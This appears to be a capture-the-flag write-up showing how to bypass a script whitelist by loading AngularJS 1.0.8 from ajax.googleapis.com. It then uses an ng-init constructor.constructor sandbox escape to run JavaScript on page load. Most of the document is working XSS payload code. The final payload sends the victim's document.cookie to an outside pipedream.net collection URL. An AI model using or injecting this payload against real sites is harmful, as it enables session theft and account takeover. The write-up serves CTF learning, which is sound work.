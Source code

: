 We can only load scripts from www.google.com and ajax.googleapis.com.
This gives us access to angular.js.
With this we can easily execute arbitrary code when clicking on a div, like so

```html
<div ng-app ng-click="$event.view.alert(1337)">AAAAA</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>
```

Problem with this, the checker will not click a link, so we need a way to execute code when the page loads.
Solution ng-init executes when the html renders.

```html
<div ng-app ng-init="$event.view.alert(1337)">AAAAA</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>
```

Problem 2: ng-init is executed inside a special angular $scope object, we have no access to the window object, so no alerts, no console, no location.href.

Solution: `constructor.constructor('alert(1)')()`
Here the first "constructor" refers to the $scope constructor which is the Object constructor. The constructor is a Function, so constructor.constructor gives us the Function constructor. Passing any string will create a function which evals that string. So the above snippet executes `alert(1)`.

```html
<div ng-app="" ng-init="constructor.constructor('window.location.href = \'https://enh7hgfvq4ko6.x.pipedream.net?cookie=\' + document.cookie')()" class="ng-scope">AAAAA</div>
<script src="//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js"></script>
```